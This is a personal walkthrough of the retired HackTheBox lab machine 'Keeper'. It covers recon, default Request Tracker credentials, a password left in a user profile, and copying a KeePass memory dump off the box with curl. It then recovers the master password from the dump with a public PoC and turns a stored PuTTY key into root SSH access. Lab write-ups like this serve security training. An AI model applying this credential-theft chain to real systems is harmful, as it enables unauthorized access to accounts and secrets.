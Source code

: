 # Keeper
Week 3 of trying to consistently solve a HTB.

Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired
- TARGET:10.10.11.227
- HOST_IP: 10.10.14.175
- Date: 2024-01-28
---



## Recon
Start off simple, do an nmap scan.
Ran `sudo nmap -p- -sC -sV $TARGET --open`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-28 13:33 CST
Nmap scan report for 10.10.11.227
Host is up (0.073s latency).
Not shown: 60981 closed tcp ports (reset), 4552 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.59 seconds
```

## Gaining Access
Since 80 was open. I figure we start with a simple `http://10.10.11.227`.

Quickly realized, the website needs `keeper.htb` and `tickets.keeper.htb` to access it from the browser.

```bash
sudo vim /etc/hosts

#add
10.10.11.227 tickets.keeper.htb
10.10.11.227 keeper.htb
```

### Accessing the website using http

Navigating to `http://tickets.keeper.htb` takes you to a login page for the ticketing system.

This is where I probably got the most distracted trying to google a vulnerability. The box uses Best Practical's Request Tracker.

I tried to find vulnerabilities based on their version: `RT 4.4.4+dfsg-2ubuntu1`. This felt like a rabbit hole of potential vulnerabilities without any active PoC.

After 30 mins of mindless google, I sadly realized when you google `request tracker default credentials`. Google immediately tells you: `root/password` are the default creds. (I probably should have looked for this first lol).

## Gaining User Access
This part was probably the most straight forward. If you do some searching on the site as root, you'll come across a Users directory. One of the users contains credentials in the profile. Figure I might as well try it via ssh.

User: `lnorgaard`
password: `Welcome2023!`
```bash
ssh lnorgaard@10.10.11.227
```
### User Flag
Soon as you login with the credentials, you're in the home directory: `cat user.txt`

## Privilege Escalation
This is what I think makes this box actually easy - inside the home directory. You're given two KeePass files: `KeePassDumpFull.dmp` and `passcodes.kdbx`

Fortunately, I'm actually familiar with KeePass from a previous job. KeePass is a password manager. So I knew the kdbx file is an encrypted file containing a root password.

```bash
ls -lah
total 326M
drwxr-xr-x 6 lnorgaard lnorgaard 4.0K Jan 28 21:42 .
drwxr-xr-x 3 root      root      4.0K May 24  2023 ..
lrwxrwxrwx 1 root      root         9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard  220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard 3.7K May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard 4.0K May 24  2023 .cache
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24  2023 KeePassDumpFull.dmp # <- important
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24  2023 passcodes.kdbx # <- important
-rw------- 1 lnorgaard lnorgaard  807 May 23  2023 .profile
-rw------- 1 lnorgaard lnorgaard    7 Jan 28 21:42 .python_history
-rw-r--r-- 1 root      root       84M Jan 28 21:46 RT30000.zip
drwx------ 2 lnorgaard lnorgaard 4.0K Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard   33 Jan 28 18:30 user.txt
-rw-r--r-- 1 root      root        39 Jul 20  2023 .vimrc
```

With a quick Google search: `keepass dump file exploit`, you find this [PoC from github](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file).

Special thanks to `vdohney` for their PoC and also mentioning a [python version](https://github.com/matro7sh/keepass-dump-masterkey) by `CMEPW`(unsure, if `matro7sh` is the same person. Shout out to them as well!)

```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
cd keepass-dump-masterkey/
```

Now we need to get the dump file and password file back to my kali machine.We can use python to start an http server to curl the contents back to myself
```
#from the victim machine
python3 -m http.server
#this will open port 8000. Therefore I can easily curl it back

#from host machine (inside the git clone repo)
curl http://$TARGET:8000/passcodes.kdbx > passcodes.kdbx
curl http://$TARGET:8000/KeePassDumpFull.dmp > dumpy.dmp
```

### Crack the Password Manager
This is where `tmux`, my terminal in kali and trying to copy/paste failed me. When you run the python script against the dump file. you get output like this:
```bash
python3 poc.py ../dumpy.dmp
2024-01-28 14:53:01,481 [.] [main] Opened ../dumpy.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Unfortunately, I was super close but ultimately had to reach out to a solution to realize how close I was.

Thank you `Imène ALLOUCHE` for your [write-up](https://medium.com/@li_allouche/hack-the-box-keeper-writeup-56644dc6a55f)

What we were essentially getting was the password `dgrød med flød`. However, I didn't have terminal configured to handle complex unicode characters. /facepalm. Sounds like I need to spend some time configuring my environment to be like my old Kali machine.

If you google `dgrød med flød` you will quickly find the 2 characters and the password: `rødgrød med flød`

### Installing KeePass and gaining Root
```bash
#on kali
sudo apt install keepass2
keepass2 passcodes.kdbx
```

Once you provide the master pass, `rødgrød med flød`


## Getting the Root flag
This is probably the main thing I learned from this challenge. The root password in this keystore didn't seem to work. However, inside there was a `Putty Private Key`. First, I didn't know this format existed. Second, I didn't know you could use this to generate a valid `id_rsa` file to ssh as root. Once again, thank you `Imène`.

```bash
# first we need puttygen
sudo apt install putty-tools
# Next we need to save the Private key inside KeePass. I named mine root.ppk
puttygen root.ppk -O private-openssh -o id_rsa
# now we have the private key in a format we can use for ssh
ssh root@10.10.11.227 -i id_rsa
cat root.txt
```

# Final Thoughts
Really easy box I could have gotten without reading a write-up - I just made some noob mistakes with how my environment is configured. I plan to fix my copy/paste issues and get better unicode support in my terminal. Also, need to make it a habit to google default credentials before looking for a PoC.

## The one thing I learned
I never knew `ppk` files existed (try to avoid windows to be honest). So that was neat to learn. I recommend reading the article on ppk if curious. I felt like I learned something new.

Definitely an easy, but I still enjoyed it. My main focus right now is staying consistent. Hopefully in a couple weeks, I can increase the difficult and get back to using some advanced tools/techniques. Or maybe, I'll try to write my own PoC from scratch (if the vuln is easy lol) - haven't decided yet.


Resources
---
- [Article on ppk](https://www.baeldung.com/linux/ssh-key-types-convert-ppk)
- [Write-up](https://medium.com/@li_allouche/hack-the-box-keeper-writeup-56644dc6a55f)
- [KeePass PoC](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file)
- [Python PoC](https://github.com/matro7sh/keepass-dump-masterkey)

